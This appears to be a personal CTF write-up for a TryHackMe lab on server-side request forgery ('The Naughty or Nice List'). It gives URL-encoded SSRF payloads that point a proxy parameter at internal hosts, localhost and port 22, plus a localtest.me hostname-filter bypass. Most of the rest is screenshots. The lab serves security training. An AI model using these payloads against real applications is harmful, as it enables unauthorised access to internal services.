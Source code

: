 # Day 19 | The Naughty or Nice List

`TryHackMe` `Web` `SSRF`

---

## Learning Outcomes

## Story 
> Santa has released a web app that lets the children of the world check whether they are currently on the naughty or nice list. Unfortunately, the elf who coded it exposed more things than she thought. Can you access the list administration and ensure that every child gets a present from Santa this year?

Feel free to try hacking this web app on your own, or follow the instructions below! Note: when bypassing the hostname filter, use localtest.me otherwise your attempts won't work!


## Notes


![0ec016e3d194c46d075c2077a24e7cc8.png](./_resources/679e206039464bd7b793abc591402c14.png)

![ecc04a1b47c5498d2d3086744519df87.png](./_resources/56adb873028f4d3d91d6c4b9af8a9a59.png)

```
http://localhost/?proxy=http%3A%2F%2Flist.hohoho%3A80%2Fsearch.php%3Fname%3Dadmin
```

![b7cc2f26fa00e1dae9ac029154e1c64c.png](./_resources/13a149e028da4cd7a918bbad2340e717.png)

```
http://localhost/?proxy=http%3A%2F%2Flist.hohoho%3A22%2Fsearch.php%3Fname%3Dadmin
```

![a925a9231851a018cbe57319c3e7f662.png](./_resources/7c8fc75f43594f33ac7280dab3beb0c3.png)

```
http://localhost/?proxy=http%3A%2F%2Flocalhost%2Fsearch.php%3Fname%3Dadmin
```
![04efcb85d05be61f0f70327328f23b2b.png](./_resources/ae76c78cfa72493f85fea14790aa29e3.png)

```
http://localhost/?proxy=http%3A%2F%2Flist.hohoho.localtest.me
```
![9d055aaebd834344720878d5e04d72da.png](./_resources/353d1383c43241579fa671b2ad1155ac.png)


![fbd8b487c22411d5af71f5178ee14333.png](./_resources/ddf00bcd1e3c45d4b075764de19040f4.png)

![7913173661db4fa7687531b39bbf1958.png](./_resources/cc72ae0e5c424facae8b6295f2a8489b.png)

### Challenge


### Q1 


